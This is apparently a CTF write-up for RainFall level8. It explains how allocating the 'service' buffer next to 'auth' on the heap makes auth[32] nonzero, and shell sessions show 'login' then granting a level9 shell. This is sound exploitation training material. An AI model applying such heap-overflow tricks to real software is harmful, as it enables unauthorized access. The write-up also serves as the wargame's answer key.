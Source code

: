 We can use four commands in this little game:
- `auth `, malloc `auth` global variable.
- `service`, malloc `service` gloabl varibale.
- `reset`, free `auth`.
- `login`, acces a shell if we managed to fufill the condition `auth[32] != 0`.

We can check the address of `auth` and `service` once allocated:
`0x804a008, 0x804a018`

They are separated by 16 padding bytes, meaning if we fill `service` is 16 bytes long we will fill `auth[32]`.
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
$
```

We could also call two times `service` command to allocate a second 16 bytes padding buffer.
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$
```
